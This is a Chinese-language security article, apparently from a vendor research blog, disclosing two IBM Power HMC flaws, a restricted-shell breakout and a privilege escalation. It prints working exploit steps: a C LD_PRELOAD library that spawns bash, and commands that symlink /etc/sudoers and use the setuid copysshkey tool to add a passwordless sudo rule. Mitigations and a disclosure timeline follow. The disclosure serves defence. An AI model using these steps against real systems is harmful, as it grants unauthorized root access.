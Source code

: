 #  IBM Power HMC漏洞披露：受限Shell突破与权限提升   
原创 mag1c7  山石网科安全技术研究院   2025-05-30 08:01  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_gif/NGIAw2Z6vnLzibrp7C4HmazCNIQXMJIRxvbibNMMmxDGrTN0Z9ibYzXnSNKobTzADCPgdo1b7ukKNARFEicHqQiajWw/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8Jb8ZACqDjPdMzgicp2SzdZ19mFnVcBO53s1uA2cSfarQkwibVUeCeH9w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
****  
****  
**攻击者如何利用环境变量和setuid二进制文件获取系统根权限？**  
  
****  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NGIAw2Z6vnLKuKAwMiaYedpTAYugKibaTBsHzf5pDuztECgfIgOfpG5DRF31jzhosMEj23dlx186q0zgLaIZj9lA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
在近期的红队演练中，研究人员发现了IBM硬件管理控制台（HMC）中的两个关键安全漏洞：受限Shell突破（CVE-2025-1950）和权限提升（CVE-2025-1951）[1]。这些漏洞可能被攻击者利用来突破系统的安全限制，获取更高的权限。本文将详细介绍这两个漏洞的发现过程、攻击路径以及IBM提供的修复措施。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**一、引言**  
  
  
在近期的一次红队演练中，研究人员发现了用于访问IBM硬件管理控制台（HMC）的私钥。IBM硬件管理控制台（HMC）是一种专用管理系统，用于控制和管理IBM服务器，特别是运行Power Systems（如IBM Power9/Power10）和大型机（z Systems）上的服务器。经过简单研究，我们发现了两个可被利用来获取HMC根访问权限的安全漏洞。  
  
  
大多数用户通过SSH进行的访问受到  
hmcbash  
（一种受限shell环境）的限制。攻击者可以利用  
LD_PRELOAD  
突破受限的  
bash  
环境，访问系统上安装的其他二进制文件。突破限制后，攻击者可以使用  
setuid  
二进制文件  
copysshkey  
将权限提升到  
root  
。  
  
  
IBM分别将这两个漏洞追踪为安全公告：环境变量权限设置错误（CVE-2025-1950）影响Power HMC[2]和安全公告：HMC中的漏洞影响进一步的权限提升（CVE-2025-1951）[3]。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**二、突破受限shell**  
  
****  
  
受限shell（hmcbash  
）基于bash的受限模式[4]构建。除其他限制外，这会阻止用户更改目录、指定包含斜杠的命令名称以及修改某些环境变量。此外，多个可能被利用的GTFOBins（如在CVE-2021-29707[5]中被利用的sed  
）已被修复。  
  
  
然而，研究人员发现可以设置环境变量LD_PRELOAD  
，这使得他们能够运行任意二进制文件，而无需在命令中使用斜杠。  
  
  
研究人员使用了一个简单的程序，该程序在应用程序退出时加载/bin/bash  
，如下所示：  
  
```
#include <stdio.h>#include <unistd.h>void exit(int e) {    execve("/bin/bash", NULL, NULL);    while(1);}
```  
  
  
由于用户无法接收通过scp  
发送的文件，我们使用以下命令将库存储在系统上：  
  
```
cat test.so | ssh ibmifcb@XXXXX cp /dev/stdin test.so
```  
  
  
以下摘录展示了如何使用LD_PRELOAD  
进行利用以及在不受限的bash中进行操作：  
  
```
ibmifcb@XXXXX:~> idbash: id: command not foundibmifcb@XXXXX:~> cd /bash: cd: restrictedibmifcb@XXXXX:~> LD_PRELOAD=./test.so lessMissing filename ("less --help" for help)[ibmifcb@XXXXX ibmifcb] $ cd /[ibmifcb@XXXXX /] $ pwd/
```  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**三、权限提升**  
  
  
用户ibmifcb  
的权限仍然非常有限，因此研究人员的下一个目标是提升其权限。快速查看系统后，他们发现了一个设置了setuid  
位的二进制文件copysshkey  
。  
  
```
[ibmifcb@XXXXX /] $ ls -al /opt/hsc/bin/copysshkey-rwsr-xr-x 1 root root 81248 Oct 26  2023 /opt/hsc/bin/copysshkey
```  
  
  
使用此二进制文件，可以将任意公钥写入任何用户的authorized_keys2  
文件中，从而以该用户身份获得SSH访问权限，如下所示：  
  
```
/opt/hsc/bin/copysshkey -o add -u hscroot -k 'ssh - ed25519 [...]'
```  
  
  
此外，该程序既不验证给定的密钥是否为公钥，也不验证用户名。因此，出现了两个问题：  
1. copysshkey  
可用于将任意文本追加到authorized_keys2  
文件中。  
  
1. 用户名可用于路径遍历攻击。  
  
如以下场景所示，这可用于获取具有无密码sudo  
权限的ccfw  
用  
户的访问权限，从而获得root  
访问权限：  
  
```
[ibmifcb@XXXXX ibmifcb] $ pwd/home/ibmifcb[ibmifcb@XXXXX ibmifcb] $ mkdir -p lol/.ssh[ibmifcb@XXXXX ibmifcb] $ ln -s /etc/sudoers lol/.ssh/authorized_keys2[ibmifcb@XXXXX ibmifcb] $ /opt/hsc/bin/copysshkey -o add -u ibmifcb/lol -k 'ibmifcb ALL=(ALL) NOPASSWD: ALL'[ibmifcb@XXXXX ibmifcb] $ sudo -i[root@XXXXX ~] # cat /etc/sudoers[...]Defaults:ccfw   !requirettyccfw ALL=(ALL) NOPASSWD: ALLDefaults:root   !requirettyibmifcb ALL=(ALL) NOPASSWD: ALL
```  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**四、缓解措施**  
  
****  
**（一）防止shell突破**  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8WFHRW8Evk0zcqAPJSmSRktqm69UXCNGtz8L1sz1g1Wg3sEYViamG90Q/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
为防止受限shel  
l中的用户将LD_PRELOAD  
设置为自定义值，应将其标记为readonly  
并设置为空字符串。  
  
  
**（二）防止权限提升**  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8WFHRW8Evk0zcqAPJSmSRktqm69UXCNGtz8L1sz1g1Wg3sEYViamG90Q/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
应评估是否可以限制copysshkey  
二  
进  
制文件的执行权限。  
  
其次，copysshkey  
程  
序应  
验证用户名是否有效，且不能用于路径遍历攻击。  
  
第三，应验证传递给copysshkey  
的公钥，以防止将任意数据写入文件。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**五、披露时间线**  
  
  
与客户协调后，作者联系了IBM以披露此漏洞。以下是披露时间线的简要总结：  
- **2025年2月18日**  
：向IBM报告问题。  
  
- **2025年3月31日**  
：ERNW联系IBM询问进展。  
  
- **2025年4月22日**  
：IBM确认漏洞并发布修复版本[8]，CVE-2025-195[9]和CVE-2025-1951[10]。  
  
- **2025年4月25日**  
：作者文章公开披露。  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**六、相关链接**  
  
[1]https://insinuator.net/2025/04/ibm-hmc-shell-breakout-privsec/  
  
[2]https://www.ibm.com/support/pages/node/7231507  
  
[3]https://nvd.nist.gov/vuln/detail/CVE-2021-29707  
  
[4]https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html  
  
[5]https://nvd.nist.gov/vuln/detail/CVE-2021-29707  
  
[6]https://www.ibm.com/support/pages/node/7231507  
  
[7]  
https://www.ibm.com/support/pages/node/7231389  
  
[8]https://insinuator.net/2025/04/ibm-hmc-shell-breakout-privsec/[#fn1]()  
  
  
[9]https://nvd.nist.gov/vuln/detail/CVE-2025-1950  
  
[10]https://nvd.nist.gov/vuln/detail/CVE-2025-1951  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8KrXv9sZf93yt4huq2kARyZSgmdnic40GayohIYiaD2FAkkAqJehJSMtQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
山石网科是中国网络安全行业的技术创新领导厂商，由一批知名网络安全技术骨干于2007年创立，并以首批网络安全企业的身份，于2019年9月登陆科创板（股票简称：山石网科，股票代码：688030）。  
  
现阶段，山石网科掌握30项自主研发核心技术，申请560多项国内外专利。山石网科于2019年起，积极布局信创领域，致力于推动国内信息技术创新，并于2021年正式启动安全芯片战略。2023年进行自研ASIC安全芯片的技术研发，旨在通过自主创新，为用户提供更高效、更安全的网络安全保障。目前，山石网科已形成了具备“全息、量化、智能、协同”四大技术特点的涉及  
基础设施安全、云安全、数据安全、应用安全、安全运营、工业互联网安全、信息技术应用创新、安全服务、安全教育等九大类产品服务，50余个行业和场景的完整解决方案。  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_gif/NGIAw2Z6vnLzibrp7C4HmazCNIQXMJIRxPibycdiaNQCI4PNojUk3eYCQDZs6c5zNMUkq7yFNeYQIxicAV33eHNdFA/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
